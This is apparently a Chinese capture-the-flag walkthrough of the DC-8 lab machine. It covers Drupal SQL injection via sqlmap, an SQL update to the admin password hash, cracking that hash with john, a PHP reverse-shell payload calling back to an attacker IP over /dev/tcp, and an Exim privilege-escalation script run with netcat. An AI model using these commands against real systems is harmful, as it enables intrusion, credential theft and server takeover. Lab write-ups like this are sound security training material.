# DC-8
对目标进行nmap扫描

一个Drupal站点

目录扫一下

发现版本信息

看到版本是7.67
msf上的脚本都试了下无法利用
回到web点击detail发现nid参数测试一下sql注入

果然存在
sqlmap跑

尝试获取个shell,但是失败了
那就看一下账号密码
改密码$S$DMtruNEVmqWoqhlPwTlnFzwyBRFgQwXUfppe9pW1RqqXlMy97tzA

```
update users set pass='$S$DMtruNEVmqWoqhlPwTlnFzwyBRFgQwXUfppe9pW1RqqXlMy97tzA' where uid=1
```

改不了,那就看看能不能爆破一下hash,jianghash放入文件中
```
john drupal_hash.txt
```

成功登录

几经摸索,创建webform中可以添加php代码

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.111.128/4444 0>&1'");?>
```
但是访问后弹不回shell,网站给出了说明


想了下顶部的几个文章可以下手,修改oncat us

然后输入表单提交,触发shell

home目录下的用户什么信息都没有
sudo -l也没有权限
查找一下suid


查看一下debian-exiam用户

应该是提示
Exim是 Linux 系统中常用的邮件传输代理（MTA）软件



这个可以利用
接下来将其上传
用wget命令下载
kali上开启python的http服务


赋予脚本执行权限,执行

./46996.sh -m netcat

